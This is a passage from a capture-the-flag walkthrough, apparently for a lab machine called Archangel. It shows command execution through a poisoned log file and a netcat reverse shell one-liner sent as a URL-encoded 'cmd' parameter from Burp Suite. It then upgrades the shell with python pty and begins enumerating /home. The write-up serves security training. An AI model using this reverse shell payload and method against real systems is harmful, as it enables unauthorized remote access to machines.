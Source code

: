    > When you send the request for the first time, you won't see anything in the output because the command has just been executed and what you are viewing is the copy of log file before the output of your command was written to it. 
   >
   > Therefore, you need to send the same request again so that the output written previous can now be viewed.

4. Now, that we have found a way to run commands on the system. We can send a reverse shell payload using the same method and start a listener on our local machine.

   - Reverse shell payload:

     ```bash
     rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your_IP> 4444 >/tmp/f
     ```

   * We can send it as the value to the `cmd` variable in the GET request. (Don't forget to URL encode it before sending it from Burp Suite. This can be done by pressing the keys `CTRL + U` )

     ![rev_shell](./.images/rev_shell.gif)

Finally, we have obtained the reverse shell.

## Horizontal Privilege Escalation

Now that we have access to the machine, we can start looking for the user flag. But before that we must convert this shell to a better looking one using the command:

```python
python3 -c 'import pty; pty.spawn("/bin/bash");'
```

> You can try with `python` also but it won't work as only `python3` is installed on the machine.

```bash
www-data@ubuntu:/var/www/html/development_testing$ cd /home
cd /home
www-data@ubuntu:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root      root      4096 Nov 18 13:06 .
drwxr-xr-x 22 root      root      4096 Nov 16 15:39 ..
drwxr-xr-x  6 archangel archangel 4096 Nov 20 15:22 archangel
www-data@ubuntu:/home$ cd archangel
cd archangel
www-data@ubuntu:/home/archangel$ ls -la
ls -la
total 44
drwxr-xr-x 6 archangel archangel 4096 Nov 20 15:22 .
```